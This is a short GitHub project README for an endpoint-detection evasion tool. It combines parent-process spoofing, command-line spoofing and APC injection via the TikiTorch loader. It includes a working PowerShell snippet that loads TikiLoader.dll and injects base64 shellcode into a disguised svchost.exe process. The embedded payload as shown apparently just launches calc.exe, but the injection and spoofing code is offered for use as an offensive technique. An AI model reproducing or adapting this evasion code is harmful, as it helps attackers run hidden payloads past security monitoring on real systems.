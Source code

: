# CarbonMonoxide
EDR Evasion - Combination of SwampThing - TikiTorch

Work in progess.

Essentially combining these elements:

```
1. PPID Spoofing
2. CmdLine Spoofing
3. QAPC Injection
4. TikiTorch (Cobalt Strike Agressor Script)

```

Its a bit easier than I thought. I went ahead and submitted a PR request.  The code here is just fragments. 

https://github.com/rasta-mouse/TikiTorch/pull/13

See this for example.

After experimentation, I settled on c# Optional Parameters to satsify this requirement.

```
$shellcodeTxt = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA"

Add-Type -Path "C:\Users\mobile\Downloads\CarbonMonoxide\TikiTorch-master\TikiLoader\bin\Release\TikiLoader.dll"

[TikiLoader.Injector]::QUAPCInject("C:\windows\system32\svchost.exe",[System.Convert]::Frombase64String($shellcodeTxt), $pid, "svchost.exe -k netsvcs BLAHDEBLAH")

```



Sysmon


Just an example of how to use. You can choose whatever parameters you like for the starting process.

xref: [How to Argue like Cobalt Strike](https://blog.xpnsec.com/how-to-argue-like-cobalt-strike/)

Special Thanks to fuzzysec/rastamouse for their code and projects.  This isn't really anything new. Its simply an adaptation.


